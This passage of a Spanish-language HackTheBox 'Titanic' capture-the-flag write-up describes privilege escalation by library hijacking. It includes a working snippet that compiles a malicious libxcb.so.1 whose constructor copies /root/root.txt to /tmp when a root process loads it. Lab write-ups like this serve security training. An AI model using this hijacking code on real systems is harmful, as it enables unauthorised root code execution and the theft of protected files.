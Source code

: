 Podemos crear una librería maliciosa en la que se ejecute un comando para obtener la flag.

```bash
cd /opt/app/static/assets/images/
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/root.txt");
    exit(0);
}
EOF
```

Hemos creado una librería maliciosa en la ruta `/opt/app/static/assets/images/` que cuando se cargue, ejecuta un comando para obtener la flag.

Ahora podemos forzar la carga de la librería visitando la web por ejemplo.

![alt text](/assets/img/writeups/hackthebox/titanic_htb/image-10.png)

Ahora si podemos ver la flag root.txt en la ruta /tmp/.

![alt text](/assets/img/writeups/hackthebox/titanic_htb/image-11.png)

Esta es una técnica de "Library Hijacking" o "Library Preloading", donde se aprovecha que:

- Linux busca bibliotecas compartidas en cierto orden
- Si podemos escribir en alguno de esos directorios
- Un proceso root carga esa biblioteca
- Podemos hacer que ejecute nuestro código como root